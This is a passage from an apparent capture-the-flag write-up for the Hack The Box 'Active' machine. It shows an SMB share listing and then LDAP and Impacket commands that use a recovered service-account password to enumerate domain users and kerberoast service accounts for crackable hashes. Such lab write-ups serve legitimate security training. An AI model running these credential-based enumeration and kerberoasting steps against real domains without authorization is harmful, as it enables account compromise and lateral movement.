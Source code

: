 ```
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Videos, fileSize:0, date:Sat Jul 21 11:16:05 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Saved Games, fileSize:0, date:Sat Jul 21 11:16:20 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Searches, fileSize:0, date:Sat Jul 21 11:16:32 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Users\SVC_TGS\Desktop\user.txt, fileSize:34, date:Sat Jul 21 11:14:42 2018
```

It seems like this provides `user.txt` but not through a dedicated shell... Since a valid username on the domain is known, perform more dedicated enumeration for the domain:

- https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual-1

```bash
ldapsearch -x -h 10.10.10.100 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb"
```

This returns a lot of information on the domain, but no other user accounts to target... A more direct scan can be done as follows:

```bash
GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

![kerb3](./active/kerb3.png)

However, the `SVC_TGS` account may allow for other Active Directory attack methods:

- https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

Try seeing is there is another account to move laterally to using kerberoasting:

```bash
GetUserSPNs.py -dc-ip 10.10.10.100 -outputfile active.hash active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

![kerb1](./active/kerb1.png)
